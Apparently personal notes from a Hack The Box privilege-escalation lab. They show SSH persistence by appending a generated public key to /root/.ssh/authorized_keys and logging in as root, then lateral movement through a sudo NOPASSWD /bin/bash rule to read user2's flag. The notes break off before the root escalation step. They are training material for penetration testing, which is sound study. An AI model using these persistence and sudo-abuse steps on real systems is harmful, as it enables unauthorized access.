 
##### add our key
if we have write priv to /.ssh/ dir, we will place our public key in the authorized_keys dir   
 /home/user/.ssh/authorized_keys  

shell access -> ssh access  
we must already gained control over the user
```{note}
FallenOverlord@htb[/htb]$ ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The key's randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+
```
the ssh-keygen command generates a new key, the -f command specific the output file  
This will give us two files: key (which we will use with ssh -i) and key.pub, which we will copy to the remote machine.  
```bash
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys

FallenOverlord@htb[/htb]$ ssh root@10.10.10.10 -i key
```

#### priv esc box
##### horizontal movement
```bash
User user1 may run the following commands on
        ng-1136328-gettingstartedprivesc-kmo8e-b88b89484-jvjss:
    (user2 : user2) NOPASSWD: /bin/bash

FallenOverlord@htb[/htb]$ sudo -u user /bin/bash
user2@ng-1136328-gettingstartedprivesc-kmo8e-b88b89484-jvjss:~$ whoami
user2
user2@ng-1136328-gettingstartedprivesc-kmo8e-b88b89484-jvjss:~$ ls
flag.txt
user2@ng-1136328-gettingstartedprivesc-kmo8e-b88b89484-jvjss:~$ cat flag.txt 
HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}

```
##### priv esc to root
before heading into the question, i know i have the bash access for user2, but not the root access.  
